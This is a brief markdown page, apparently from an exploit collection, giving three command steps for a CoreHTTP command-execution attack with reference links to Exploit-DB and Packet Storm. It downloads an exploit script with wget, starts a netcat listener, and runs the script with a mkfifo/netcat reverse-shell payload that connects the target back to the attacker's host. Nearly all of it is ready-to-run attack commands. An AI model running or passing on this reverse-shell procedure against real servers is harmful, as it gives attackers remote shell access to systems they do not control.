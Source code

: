 ### Download exploit
```
wget https://raw.githubusercontent.com/tobor88/Bash/master/corehttp-rev-shell.sh
```

### Start listener
```
nc -nlvp <lport>
```

### Run exploit
```
bash corehttp-rev-shell.sh -u 'http://<rhost>:<rport>/dev/foo.pl' -s 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <lhost> <lport> >/tmp/f'
```

References:  
* https://www.exploit-db.com/exploits/10349  
* https://packetstormsecurity.com/files/84212/CoreHTTP-0.5.3.1-Command-Execution.html  

